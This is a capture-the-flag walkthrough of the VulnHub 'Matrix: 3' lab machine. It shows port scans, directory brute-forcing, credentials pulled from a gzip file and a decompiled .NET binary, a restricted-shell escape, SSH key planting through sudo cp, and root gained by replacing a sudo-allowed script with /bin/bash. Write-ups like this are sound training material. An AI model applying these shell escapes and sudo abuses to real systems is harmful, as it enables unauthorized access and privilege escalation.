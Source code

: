 
Matrix: 3



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Password HASH Cracking
[+] Disassembly with Ghidra
[+] ssh with -t "bash --noprofile"
[+] Lateral Movement abusing SUDO rights with ssh-key using /bin/cp
[+] Privilege Escalation abusing SUDO rights /home/trinity/oracle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Nmap Scanning

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.101
Host is up (0.00049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.91 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning All Ports

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-04 04:22 EDT
Nmap scan report for 192.168.56.101
Host is up (0.000056s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
80/tcp   open  http
6464/tcp open  ieee11073-20701
7331/tcp open  swx
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirbuster discovered the following image:
Matrix_can-show-you-the-door.png

Browsing http://192.168.56.101/matrix

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# dirb http://192.168.56.101/Matrix

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct  4 05:27:16 2019
URL_BASE: http://192.168.56.101/Matrix/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.101/Matrix/ ----
+ http://192.168.56.101/Matrix/4 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/6 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/c (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/d (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/e (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/i (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/k (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/n (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/o (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/u (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/v (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/w (CODE:301|SIZE:0)                             
                                                                    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We found a file called secret.gz and found the login credentials to 192.168.56.101:7331


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# wget http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
--2019-10-04 05:28:28--  http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39 [application/octet-stream]
Saving to: ‘secret.gz’

secret.gz         100%[===================>]      39  --.-KB/s    in 0s      

2019-10-04 05:28:28 (3.46 MB/s) - ‘secret.gz’ saved [39/39]

root@setrus:~/vulnhub/matrix3# strings secret.gz
admin:76a2173be6393254e72ffa4d6df1030a

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Matrix%3A3/matrix31.png)



After logging in we crawl the application

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/robots.txt
User-agent: *
Disallow: /data/

root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /data/</title>
<body>
<h2>Directory listing for /data/</h2>
<hr>
<ul>
<li><a href="data">data</a>
</ul>
<hr>
</body>
</html>


root@setrus:~/vulnhub/matrix3# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/data --output data
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9696  100  9696    0     0  1893k      0 --:--:-- --:--:-- --:--:-- 1893k
root@setrus:~/vulnhub/matrix3# ls -al data
-rwxr-xr-x 1 root root 9696 Oct  4 05:35 data
root@setrus:~/vulnhub/matrix3# file data
data: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


This is Windows executable file
We open it with Ghidra :  we found the username and password to login via ssh

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Matrix%3A3/matrix32.png)

Credentials : 
guest
7R1n17yN30


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464
guest@192.168.56.101's password: 
Last login: Fri Oct  4 09:40:35 2019 from 192.168.56.102
guest@matrix:~$ id
-rbash: id: command not found
guest@matrix:~$
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Escaping restricted shell

Logging in without profile

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
oot@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464 -t "bash --noprofile"
guest@192.168.56.101's password: 
guest@matrix:~$ id
uid=1000(guest) gid=100(users) groups=100(users),7(lp),11(floppy),17(audio),18(video),19(cdrom),83(plugdev),84(power),86(netdev),93(scanner),997(sambashare)
guest@matrix:~$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
guest@matrix:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


users has sudo -l to trinity user
In order to get access as user trinty, create a pair of ssh-keys and copy them in authorization_keys for trinity

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:xP5TWyA6dhta9PcJTbXSjGgYKzAYgOyk+Ss8SYI0QuM guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
|o...oo   .      .|
|.= .  o.  + . + o|
|*..    .oooo.o = |
|+E     o.o.o .+  |
|+..     S + o.o. |
|o..    . * + +...|
|+ ..    . + .  ..|
|.+.        .     |
| ..              |
+----[SHA256]-----+
guest@matrix:~/.ssh$ ls
id_rsa  id_rsa.pub  known_hosts
guest@matrix:~/.ssh$ chmod 777 id_rsa.pub 
guest@matrix:~/.ssh$ cp id_rsa.pub ../
guest@matrix:~/.ssh$ cd ..
guest@matrix:~$ ls
Desktop/    Downloads/  Pictures/  Videos/      prog/
Documents/  Music/      Public/    id_rsa.pub*
guest@matrix:~$ sudo -u trinity /bin/cp id_rsa.pub /home/trinity/.ssh/authorized_keys

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~$ ssh trinity@192.168.56.101 -p6464
The authenticity of host '[192.168.56.101]:6464 ([192.168.56.101]:6464)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.56.101]:6464' (ECDSA) to the list of known hosts.
Last login: Mon Aug  6 16:37:45 2018 from 192.168.56.102
trinity@matrix:~$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
trinity@matrix:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/
trinity@matrix:~$ echo '/bin/bash' > oracle
trinity@matrix:~$ chmod +x oracle 
trinity@matrix:~$ sudo /home/trinity/oracle
root@matrix:/home/trinity# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


